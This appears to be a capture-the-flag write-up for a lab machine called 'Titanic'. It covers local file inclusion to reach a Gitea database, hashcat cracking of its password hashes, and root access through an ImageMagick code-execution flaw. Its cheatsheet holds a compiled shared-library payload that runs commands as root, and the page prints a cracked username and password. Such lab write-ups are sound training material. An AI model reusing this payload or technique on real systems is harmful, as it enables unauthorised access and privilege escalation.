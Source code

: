 # Titanic \[Easy]

## Report

HTTP website posts a form and downloads a 'ticket' from local, vulnerable to LFI, find an exposed gitea directory with access to source mentioning path to find creds. Leverage this to find creds for user 'developer'

Looking around, see a script which uses binary 'ImageMagick' as sudo which uses an outdated version that is vulnerable to Arbritary Code Execution

{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

## Cheatsheet

```
#Final path for LFI, after reading documentation
/home/developer/gitea/data/gitea/gitea.db

hashcat64.exe -m 10900 hash.txt rockyou.txt -d 1

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
attribute((constructor)) void init(){
system("sudo cat /root/root.txt");
exit(0);
}
EOF

magick /dev/null dev/null
```

## Proof

endpoint `/book` post form data
\
`/download` variable ticket modify this yea

v2 was forbidden                                   (Was there any point?)

`/home/developer/gitea/data:/data`  (From gitea dockerfile)

`data/gitea.db`                                       (From Google, db file path)

volumes:
\
`- ./gitea:/data`                                         (From gitea documentation, SQL Database setup)

Our dockerfile mentions one path and the sql dockerfile appends to it further

Hence final path: `/home/developer/gitea/data/gitea/gitea.db`



Convert gitea PBKDF2-HMAC-SHA256 password hashes to hashcat readable form

`developer:25282528`

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (82).png" alt="" width="563"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## In-Game Pitch Notes

Once you clock an LFI, you have to be thinking about exposing creds come on

Privesc Methodology

linpease
\
sudo -l
\
suid
\
crontab
\
no sus binaries with useless perms
\
no path exploit

opt was written in red lmao (readable by user but not world readable)

The convert command is deprecated in IMv7, use "magick" instead of "convert" or "magick convert"
